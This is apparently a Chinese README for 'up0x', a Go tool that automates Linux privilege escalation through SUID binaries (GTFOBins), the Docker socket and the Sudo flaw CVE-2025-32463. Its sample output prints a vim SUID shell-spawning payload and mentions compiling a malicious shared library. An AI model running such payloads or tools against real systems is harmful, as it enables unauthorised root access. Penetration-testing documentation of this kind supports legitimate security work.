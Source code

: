# up0x

一款集合常见提权方法的提权工具

## 项目简介

up0x 是一个面向渗透测试人员与安全研究者的 Linux 提权工具，集合了多种常见提权检测与利用方法，涵盖了 SUID 配置错误、CVE 漏洞利用（如 Sudo、特定年份的高危漏洞）等功能。

## 功能特性

- **SUID 检测与利用**：自动扫描系统中的 SUID 文件，并尝试利用常见的提权方法（如 GTFOBins）进行提权。
- **Sudo 漏洞检测与利用**：自动检测系统 Sudo 版本，判断是否存在已知高危漏洞（如 CVE-2025-32463），并尝试进行漏洞利用。
- **CVE 漏洞集成**：内置多种 CVE 漏洞利用模块，便于一键检测和利用。

## 使用方法

### 编译

本项目使用 Go 语言开发，需先安装 Go 环境。

```bash
git clone https://github.com/g0ubu1i/up0x.git
cd up0x
go build -o up0x main.go
```

### 运行

```bash
./up0x
```

运行后，工具将自动检测可能存在的提权漏洞

### 输出示例

```
██    ██ ██████   ██████  ██   ██ 
██    ██ ██   ██ ██  ████  ██ ██   
██    ██ ██████  ██ ██ ██   ███   
██    ██ ██      ████  ██  ██ ██  
 ██████  ██       ██████  ██   ██ 
  author: g0ubu1i

[+] up0x start work
[+] check SUID ...
find SUID: /usr/bin/vim
try get root: /usr/bin/vim [-c :py import os; os.execl("/bin/sh", "sh", "-pc", "reset; exec sh -p")]
...
[+] check Sudo version
[+] Sudo version: 1.9.15
[+] CVE-2025-32463 vulnerability found
[+] Compiled malicious shared library.
[+] Created stage directory: /tmp/sudowoot.stage.xxxxx
```

## 支持的提权方式

- SUID 程序利用（覆盖常见 GTFOBins，如 python3, vim, find, awk, bash, cp, less, more, nano, ed, env, expect, ftp, gdb, git, lua, perl, php, ruby, scp, tar, timeout, rsync, zsh, chmod 等）
- 挂载 Docker Socket
- Sudo 漏洞（如 CVE-2025-32463 等）
- 可扩展更多 CVE 漏洞和自定义利用方式

## 免责声明

本工具仅供学习与安全测试使用，禁止用于非法用途。因使用本工具产生的任何后果与作者无关。

## 致谢

- [GTFOBins](https://gtfobins.github.io/)
- 安全社区与所有开源贡献者

---

> 作者：g0ubu1i  
> 仓库地址：https://github.com/g0ubu1i/up0x